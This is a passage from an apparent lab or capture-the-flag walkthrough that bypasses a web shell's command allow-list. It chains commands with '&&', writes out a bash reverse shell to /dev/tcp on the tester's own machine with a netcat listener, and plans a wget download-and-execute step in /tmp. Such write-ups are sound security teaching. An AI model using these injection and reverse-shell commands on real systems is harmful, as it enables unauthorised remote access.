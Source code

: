 Let’s try `&&`


![A20 – andand](https://i.imgur.com/MbiPSDA.png)


This is promising, but `pwd` is on the list of approved commands. Let’s try something unapproved, like `id`, `whoami` or `cd` .

* `pwd && id && whoami && cd /tmp && pwd`


![A21 – norules](https://i.imgur.com/mU1q3XJ.png)


Not only do we find out we can run commands, but we find out we can run `sudo`!

Let’s see if we can use this to run a reverse shell. I have had mixed success with `nc` using the `-e` flag, so my go to shell command is:


* `bash -i >& /dev/tcp/local.machine.ip.addr/PORTNUM 0>&1`


Which we need to run after `pwd` or one of the other commands – after we have set up our listener of course. 

On our local machine, we run:

* `nc -lnvp 51000` - or any port number you like.

And then on the Web-Shell, try running.

* `pwd &&  bash -i >& /dev/tcp/192.168.56.1/51000 0>&1`


![A22 nobashrev](https://i.imgur.com/xHcXXR0.png)


It didn’t like that, or give us a shell – but we didn’t get a “not allowed” error. That's called progress!
My go-to method to get around this is to write a script containing the more complicated or powerful commands I want to run, then to run a command to download and execute that script using simpler commands. It usually comes in these three parts:

* Creating a script containing a reverse shell spawning command, which is, in this case, `bash -i >& /dev/tcp/192.168.56.1/51000 0>&1`
* Hosting this script in a location the machine we want the reverse shell on can download from. In this case I am running a host-only network, so I will host it on my local machine.
* Downloading the script to a writable directory, then making it executable and running it.


This last part usually uses `wget`-to donwload the script to a writable directory like /tmp and then running `chmod +x script.sh` and `bash script.sh` - so, we need do check if our user can run these commands. 


In the webshell, we run

* `pwd && which wget && which chmod && which bash && cd /tmp && pwd && ls -la`

This script will tell us if we can run `wget`, `chmod` and `bash`, while also double-checking that we can write to /tmp.
